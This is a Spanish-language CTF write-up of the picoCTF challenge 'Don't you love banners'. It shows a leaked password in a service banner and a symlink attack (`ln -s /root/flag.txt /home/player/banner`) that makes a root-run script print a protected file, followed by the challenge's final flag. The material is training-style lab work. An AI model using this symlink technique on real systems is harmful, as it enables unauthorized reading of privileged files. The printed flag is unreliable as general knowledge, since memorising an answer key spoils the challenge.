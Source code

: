 #### Description

Can you abuse the banner?

Additional details will be available after launching your challenge instance.
¿Puedes abusar del banner?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

#### Consejos:
1. Do you know about symlinks?
2. Maybe some small password cracking or guessing
--
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 54990`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 58584`. From the above information abuse the machine and find the flag in the /root directory.

* Primero usamos [[NET CAT]] para conectarnos al primer puerto, pero este nos da una contraseña.
* Luego nos conectamos al segundo puerto y completamos lo que se nos pide, logrando ingresar.

> Puedes ver más sobre las respuestas aquí:
> 
> - [DEFCON](https://defcon.org/?mob=1)
> - [John Draper](https://es.wikipedia.org/wiki/John_Draper)

* Usamos [[ls]] -la para ver que contiene este servidor:
* Observamos dos archivos que nos llaman la atención, así que usamos [[CAT]] para ver que contienen. `cat banner y cat text`.
* Pero esto no nos da mucha información, y nos pide que sigamos investigando. Por lo cual inspeccionamos el root, y vemos la bandera, pero no tenemos [[Permisos]] de lectura: `ls -la /root`.
* Por lo cual vemos el otro archivo que nos llama la atención, el 'script.py':  `cat /root/script.py`
* Vemos como se configura la interfaz que nos permitió conectarnos al servidor, pero vemos una excepción: depende de que '/home/player/banner' exista, por lo cual lo eliminamos con [[RM]]: `rm /home/player/banner`.
* Y ahora, establecemos un link, haciendo que '/home/player/banner' ya no apunte al banner, sino a la bandera (usando [[ln#3. Enlace a directorio]]): `ln -s /root/flag.txt /home/player/banner `
* Salimos del servidor y volvemos a entrar para que nos vuelva a pedir ingresar (y ejecute el archivo de [[Python]]), y obtenemos la bandera.
## Terminal linux:
```
yoli@Yoli:~/Fundamentos_Seguridad/Examen_1/Parte1-General-Skills/7-dont-you-love-banners$ nc tethys.picoctf.net 54990
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
^C
yoli@Yoli:~/Fundamentos_Seguridad/Examen_1/Parte1-General-Skills/7-dont-you-love-banners$  nc tethys.picoctf.net 58584
*************************************
**************WELCOME****************
*************************************

what is the password?
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
Jonh Draper
Lol, good try, try again and good luck

What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ ls -la
ls -la
total 20
drwxr-xr-x 1 player player   20 Mar  9  2024 .
drwxr-xr-x 1 root   root     20 Mar  9  2024 ..
-rw-r--r-- 1 player player  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 player player 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 player player  807 Apr  4  2018 .profile
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
player@challenge:~$ cat banner
cat banner
*************************************
**************WELCOME****************
*************************************
player@challenge:~$ cat text
cat text
keep digging
player@challenge:~$ ls -la /root
ls -la /root
total 16
drwxr-xr-x 1 root root    6 Mar 12  2024 .
drwxr-xr-x 1 root root   29 Apr 15 18:50 ..
-rw-r--r-- 1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rwx------ 1 root root   46 Mar 12  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
player@challenge:~$ cat /root/script.py
cat /root/script.py

import os
import pty

incorrect_ans_reply = "Lol, good try, try again and good luck\n"

if __name__ == "__main__":
    try:
      with open("/home/player/banner", "r") as f:
        print(f.read())
    except:
      print("*********************************************")
      print("***************DEFAULT BANNER****************")
      print("*Please supply banner in /home/player/banner*")
      print("*********************************************")

try:
    request = input("what is the password? \n").upper()
    while request:
        if request == 'MY_PASSW@RD_@1234':
            text = input("What is the top cyber security conference in the world?\n").upper()
            if text == 'DEFCON' or text == 'DEF CON':
                output = input(
                    "the first hacker ever was known for phreaking(making free phone calls), who was it?\n").upper()
                if output == 'JOHN DRAPER' or output == 'JOHN THOMAS DRAPER' or output == 'JOHN' or output== 'DRAPER':
                    scmd = 'su - player'
                    pty.spawn(scmd.split(' '))

                else:
                    print(incorrect_ans_reply)
            else:
                print(incorrect_ans_reply)
        else:
            print(incorrect_ans_reply)
            break

except:
    KeyboardInterrupt

player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
yoli@Yoli:~/Fundamentos_Seguridad/Examen_1/Parte1-General-Skills/7-dont-you-love-banners$ nc tethys.picoctf.net 54990
nc: getaddrinfo for host "tethys.picoctf.net" port 54990: No address associated with hostname
yoli@Yoli:~/Fundamentos_Seguridad/Examen_1/Parte1-General-Skills/7-dont-you-love-banners$ nc tethys.picoctf.net 58584
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}

what is the password?
yoli@Yoli:~/Fundamentos_Seguridad/Examen_1/Parte1-General-Skills/7-dont-you-love-banners$
```
## Solución:
```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_ed6f9c71}
```
